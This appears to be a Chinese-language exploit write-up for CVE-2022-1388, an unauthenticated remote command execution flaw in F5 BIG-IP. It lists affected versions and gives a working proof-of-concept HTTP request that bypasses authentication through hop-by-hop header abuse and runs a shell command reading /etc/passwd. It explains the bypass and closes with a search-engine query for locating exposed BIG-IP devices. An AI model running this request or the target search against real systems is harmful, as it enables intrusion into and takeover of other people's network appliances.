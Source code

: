 # F5 BIG-IP 未授权RCE漏洞（CVE-2022-1388）

## 利用条件：

- BIG-IP 16.x: 16.1.0 - 16.1.2
- BIG-IP 15.x: 15.1.0 - 15.1.5
- BIG-IP 14.x: 14.1.0 - 14.1.4
- BIG-IP 13.x: 13.1.0 - 13.1.4
- BIG-IP 12.x: 12.1.0 - 12.1.6
- BIG-IP 11.x: 11.6.1 - 11.6.5

## 利用方法：

#### POC：
```java
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Authorization: Basic YWRtaW46
X-F5-Auth-Token: asdf
Connection: keep-alive,X-F5-Auth-Token
Content-Type: application/json
Content-Length: 83

{"command":"run","utilCmdArgs":"-c 'cat /etc/passwd'"}
```
![](img/poc.jpg)

## 漏洞分析：

1. Apache（模块 `mod_pam_auth.so`）会检查 `X-F5-Auth-Token` 是否为空。只有当存在 `X-F5-Auth-Token` 头并且不为空时，才会交给后端的 Jetty 进行认证，Jetty 来检查 `X-F5-Auth-Token` 的值是否合法（`EvaluatePermissions#evaluatePermission`），从而完成第二次认证，但是 Jetty 判断 `X-F5-Auth-Token` 为空时，将直接 “认为” Apache 已经完成认证从而不会检查提供的信息是否合法，从而实现了认证绕。
2. 如果请求中带有 HTTP 头 `Connection: close, X-Foo, X-Bar`，Apache 会在请求转发到代理前，将 `X-Foo` 和 `X-Bar` 逐一删除。
3. 很容易联想到可以构造特殊请求，通过 Apache 的检查，同时由于 hop-by-hop 滥用漏洞导致转发进入 Jetty 前已经删除了 `X-F5-Auth-Token` 头。
4. 顺利进入了 Jetty 解析，同时又不存在 `X-F5-Auth-Token` 头，从而实现了认证绕过。后面的逻辑处理与 CVE-2021-22986 是一样的，结合 F5 BIG-IP iControl REST 自带接口，很容易实现 RCE 。

## 漏洞环境：

某fa搜索：
` title="BIG-IP&reg;-+Redirect" && "Server" && server=="Apache" `